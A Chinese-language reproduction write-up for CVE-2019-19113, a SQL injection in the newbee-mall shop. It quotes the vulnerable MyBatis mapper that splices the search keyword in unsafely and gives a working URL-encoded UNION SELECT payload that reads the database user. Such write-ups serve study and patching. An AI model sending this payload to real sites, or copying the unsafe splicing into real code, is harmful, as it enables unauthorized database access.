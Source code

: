 # CVE-2019-19113 Newbee-mall新蜂商城sql注入

### 一、漏洞简介

newbee-mall 2019-10-23之前版本中的main/resources/mapper/NewBeeMallGoodsMapper.xml文件存在SQL注入漏洞。该漏洞源于基于数据库的应用缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令。

### 二、漏洞影响

Newbee-mall 2019-10-23之前版

### 三、复现过程

\src\main\resources\mapper\NewBeeMallGoodsMapper.xml


```xml
<select id="findNewBeeMallGoodsListBySearch" parameterType="Map" resultMap="BaseResultMap">
        select
        <include refid="Base_Column_List"/>
        from tb_newbee_mall_goods_info
        <where>
            <if test="keyword!=null and keyword!=''">
                and (goods_name like CONCAT('%','${keyword}','%') or goods_intro like CONCAT('%','${keyword}','%'))
            </if>
            <if test="goodsCategoryId!=null and goodsCategoryId!=''">
                and goods_category_id = #{goodsCategoryId}
            </if>
        </where>
        <if test="orderBy!=null and orderBy!=''">
            <choose>
                <when test="orderBy == 'new'">
                    
                    order by goods_id desc
                </when>
                <when test="orderBy == 'price'">
                    
                    order by selling_price asc
                </when>
                <otherwise>
                    
                    order by stock_num desc
                </otherwise>
            </choose>
        </if>
        <if test="start!=null and limit!=null">
            limit #{start},#{limit}
        </if>
    </select>
```

如果使用`$ {keyword}`拼接sql语句，则存在SQL注入的风险

poc：


```bash
http://url:28089/search?goodsCategoryId=&keyword=%5C%25%27%29%29%20%55%4E%49%4F%4E%20%41%4C%4C%20%53%45%4C%45%43%54%20%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%43%4F%4E%43%41%54%28%30%78%37%31%37%36%36%32%37%38%37%31%2C%49%46%4E%55%4C%4C%28%43%41%53%54%28%43%55%52%52%45%4E%54%5F%55%53%45%52%28%29%20%41%53%20%43%48%41%52%29%2C%30%78%32%30%29%2C%30%78%37%31%36%32%37%38%36%62%37%31%29%2C%4E%55%4C%4C%2C%4E%55%4C%4C%23&orderBy=default
```